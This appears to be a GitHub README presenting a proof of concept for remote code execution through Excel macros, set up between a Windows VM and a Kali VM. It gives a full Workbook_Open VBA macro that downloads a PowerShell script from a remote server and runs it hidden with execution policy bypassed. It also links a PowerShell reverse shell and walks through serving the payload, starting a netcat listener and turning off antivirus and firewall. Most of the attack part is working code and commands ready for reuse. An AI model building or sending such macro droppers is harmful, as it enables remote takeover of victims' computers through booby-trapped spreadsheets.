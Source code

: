 # Microsoft Excel Remote Code Execution - Macros

## Introduction 

- Microsoft Excel is one of the most widely used spreadsheet programs in the world. While it has many useful features, one that can potentially be misused by hackers is the macro functionality.

- Macros allow you to automate repetitive tasks in Excel by creating small programs or scripts.

- These macros can also be exploited by attackers to run malicious code on your computer remotely without your knowledge. This is known as a remote code execution (RCE) attack.

- Essentially, the attacker can create a specially crafted macro embedded in an Excel file that, when opened, secretly runs their payload on your system.

- While Microsoft has made efforts to improve macro security in Excel over the years, cybercriminals continually find new ingenious ways to bypass these protections. This report will explain in detail how these RCE attacks work through malicious Excel macros.

## Macros

- Macros can be considered as a set of programming instructions that can be recorded, named, saved, and executed in VBA as and when required macros can help us to automate repetitive tasks associated with data manipulation that must be accomplished repeatedly. 
- Note : you can also **enable** and disable macros in Excel.

Some ways with which attackers can leverage malicious macros in Excel are:

Ø **Social Engineering Attacks**: One of the most common methods is through social engineering tactics. Attackers craft a seemingly innocent Excel file containing malicious macros and trick the victim into enabling and running the macros.

Ø **Malicious Add-Ins** : Excel allows installing third-party add-ins which can contain VBA code. Attackers distribute malicious add-ins that install backdoors or malicious macros when loaded.

Ø **PowerShell Integration** in Macros can launch PowerShell scripts on the victim's machine. 
This allows attackers to run PowerShell commands and access system resources

## Recreating the POC

### Prerequisites :-

- Download and install **Microsoft Office 2016 and 2019** on your VM.
- Open Excel go to :
	**File => More => Options => Trust Center => Trust Center Settings => Enable Macros**
	
![alt text](Assets/trust.jpg)

- Windows VM and Kali Linux VM 

### Flowchart

![alt text](Assets/flow.jpg)

### Set up Python Server

We have Used Kali Linux to setup our Python Server
This Python Server is a pathway to Pipe our Exploit to Victim's Machine

```sh
python3 -m http.server <port>
```

This will act as our **Backdoor Connection** to our Victim's Device 

![alt text](Assets/server.jpg)

#### Powershell Script 

This is our Powershell Script:

LINK :- [Github](https://github.com/martinsohn/PowerShell-reverse-shell/blob/main/powershell-reverse-shell.ps1)

- Save this Powershell script in a `.ps` file 
- Save it in such a folder where it can be accessed via the created python server
- Copy its path you will need it to input in our Vbscript

### Macros Vbscript

This is our Exploit which we have written in our **Macros Vbscript**

```vbscript
Private Sub Workbook_Open()
    ExecuteRemotePowerShellScript
End Sub

Private Sub ExecuteRemotePowerShellScript()
    Dim scriptUrl As String
    Dim scriptFilePath As String
    Dim tempFolder As String
    Dim objShell As Object
    
    ' URL of the PowerShell script
    scriptUrl = "http://example.com/path/to/script.ps1"
    
    ' Local path where you want to save the downloaded script
    tempFolder = Environ("TEMP")
    scriptFilePath = tempFolder & "\script.ps1"
    
    ' Download the PowerShell script from the URL
    If DownloadFile(scriptUrl, scriptFilePath) Then
        ' Check if the script file exists
        If Dir(scriptFilePath) <> "" Then
            ' Execute the PowerShell script in the background
            Set objShell = CreateObject("WScript.Shell")
            objShell.Run "powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File """ & scriptFilePath & """", 0, True ' Wait until the script completes
            Set objShell = Nothing
        Else
            MsgBox "Script file not found after download: " & scriptFilePath
        End If
    Else
        MsgBox "Failed to download the script file from URL: " & scriptUrl
    End If
End Sub

Private Function DownloadFile(fileUrl As String, filePath As String) As Boolean
    Dim xmlHttp As Object
    Set xmlHttp = CreateObject("MSXML2.XMLHTTP")
    
    xmlHttp.Open "GET", fileUrl, False
    xmlHttp.Send
    
    If xmlHttp.Status = 200 Then
        Dim adoStream As Object
        Set adoStream = CreateObject("ADODB.Stream")
        
        adoStream.Open
        adoStream.Type = 1 ' Binary
        
        adoStream.Write xmlHttp.responseBody
        adoStream.Position = 0 ' Reset the stream position
        
        If Dir(filePath) <> "" Then
            Kill filePath ' Delete existing file
        End If
        
        adoStream.SaveToFile filePath, 2 ' Overwrite mode
        adoStream.Close
        Set adoStream = Nothing
        
        DownloadFile = True
    Else
        DownloadFile = False
    End If
    
    Set xmlHttp = Nothing
End Function
```
###  Workflow of our Vbscript Exploit :-

-  On execution it downloads the Powershell backdoor exploit from the remote server.
-  Then it saves the downloaded file in a temporary folder `.ps` file in `TEMP` folder 
-  Which is then Executed in the background
-  This exploit will run whenever you try to open your `.xlsm` / Excel file and will run even after   the Excel file is closed in the background 
-  Until its Task is Ended in Task Manager or Victim Computer is Turned Off

### Creating a Malicious Excel File

Download the sample excel .vba file from : [Github](https://github.com/pruthuraut/Excel-RCE-with-Macros)

Paste the code in Virtual Basic Application by pressing ( **Alt + F11** )

![alt text](Assets/vb.jpg)

Only these two lines of code needs to be Edited , rest should be the same 

```sh
 scriptUrl = " < path to your powershell script > "
``` 

```sh
 scriptFilePath = tempFolder & "\ < name of your powershell script > "
```

Now save the Excel File and Exit

### Set up a Listener : Netcat

On Another Terminal setup a Netcat Listener with this command below :-

```sh
nc -lvnp < Port defined as in your powershell script >
```

### Execution

Check The Following before Opening you File or it may get Flagged :

Turn off all Protections : **Virus and Threat protection** 

**Windows Security < Virus and Threat Protection < Manage settings < Turn off everything**

![alt text](Assets/virus.jpg)

Turn off all options in  : **Firewall and Network Protection** :

 **Windows Security < Firewall and Network Protection < Turn off everything**

Now try open your `.xlsm` Excel File , check your netcat listener 

![alt text](Assets/reverse.jpg)

We got a **Reverse Shell** of Victim Device : `SHELL>`

